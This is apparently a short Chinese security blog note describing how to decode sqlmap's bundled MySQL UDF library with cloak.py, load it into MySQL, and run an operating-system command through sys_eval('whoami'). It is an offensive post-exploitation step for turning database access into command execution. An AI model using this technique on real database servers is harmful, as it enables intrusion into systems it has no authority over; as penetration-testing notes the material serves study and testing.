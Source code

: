 ```yaml
---
title: "SQLmap udf dll 解码"
date: 2018-06-07T00:00:00+08:00
draft: false
tags: ['sqli','mysql']
categories: ['web']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


SQLmap udf dll 解码

<!--more-->

文件.

`udf/mysql/windows/32/lib_mysqludf_sys.dll_`

用 extra/cloak 下的 cloak.py 解码.

`cloak.py -d -i lib_mysqludf_sys.dll_`

mysql 导入执行.

`select sys_eval('whoami');`
